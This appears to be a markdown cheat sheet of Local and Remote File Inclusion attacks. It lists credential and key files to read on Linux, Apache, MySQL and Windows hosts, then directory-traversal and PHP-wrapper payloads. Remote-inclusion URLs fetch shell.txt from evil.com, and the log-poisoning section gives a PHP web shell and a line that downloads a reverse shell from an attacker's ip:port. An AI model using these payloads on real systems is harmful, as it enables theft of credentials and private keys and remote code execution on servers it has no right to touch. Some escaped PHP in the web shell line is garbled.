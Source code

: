 # LFI & RFI
### List
- UseFul LFI Files
	- LFI Payloads
- RFI Example
- Log Poisoning


# LFI
---
## Useful LFI files

### Linux
`/etc/passwd`
`/etc/shadow`
`/etc/issue`
`/etc/group`
`/etc/hostname`
`/etc/ssh/ssh_config`
`/etc/ssh/sshd_config`
`/root/.ssh/id_rsa`
`/root/.ssh/authorized_keys`
`/home/user/.ssh/authorized_keys`
`/home/user/.ssh/id_rsa`
`/proc/[0-9]*/fd/[0-9]*`
`/proc/mounts`
`/home/$USER/.bash_history`
`/home/$USER/.ssh/id_rsa`
`/var/run/secrets/kubernetes.io/serviceaccount`
`/var/lib/mlocate/mlocate.db`
`/var/lib/mlocate.db`


### Apache
`/etc/apache2/apache2.conf`
`/usr/local/etc/apache2/httpd.conf`
`/etc/httpd/conf/httpd.conf`
`Red Hat/CentOS/Fedora Linux -> /var/log/httpd/access_log`
`Debian/Ubuntu -> /var/log/apache2/access.log`
`FreeBSD -> /var/log/httpd-access.log`
`/var/log/apache/access.log`
`/var/log/apache/error.log`
`/var/log/apache2/access.log`
`/var/log/apache/error.log`
`/etc/apache2/sites-available/00-default.conf`


### MySQL
`/var/lib/mysql/mysql/user.frm`
`/var/lib/mysql/mysql/user.MYD`
`/var/lib/mysql/mysql/user.MYI`


### Windows
`/boot.ini`
`/autoexec.bat`
`/windows/system32/drivers/etc/hosts`
`/windows/repair/SAM`
`/windows/panther/unattended.xml`
`/windows/panther/unattend/unattended.xml`
`/windows/system32/license.rtf`
`/windows/system32/eula.txt`


## LFI Payloads
---
### Directory traversal

```
?file=../../../../../../../etc/passwd
```

### PHP Wrapper php://file
```
?page=expect://ls
```

### PHP Wrapper php://filter
```
?page=php://filter/convert.base64-encode/resource=../../../../../etc/passwd
```

```
http://example.com/index.php?page=php://filter/read=string.rot13/resource=index.php
```

### some other useful payloads that i found online
```
http://example.com/index.php?page=etc/passwd
```

```
http://example.com/index.php?page=etc/passwd%00
```

```
http://example.com/index.php?page=../../etc/passwd
```

```
http://example.com/index.php?page=%252e%252e%252f
```

```
http://example.com/index.php?page=....//....//etc/passwd
```


# RFI
---
### Basic RFI
```
http://example.com/index.php?page=http://evil.com/shell.txt
http://example.com/index.php?page=http://evil.com/shell.txt%00
http://example.com/index.php?page=http:%252f%252fevil.com%252fshell.txt
```

### RFI Wrapper EXPECT
```
http://example.com/index.php?page=php:expect://id
http://example.com/index.php?page=php:expect://ls
```

# Log Poisoning
---
### Basic  Log Poisoning

```php
<?php system($\_GET\['cmd'\]); \>>
```

```php
<?php file_put_contents('rev.php', file_get_contents('http://ip:port/rev.php')) ?>
```
\# note you should change ip and port in this one and you have to setup a HTTP server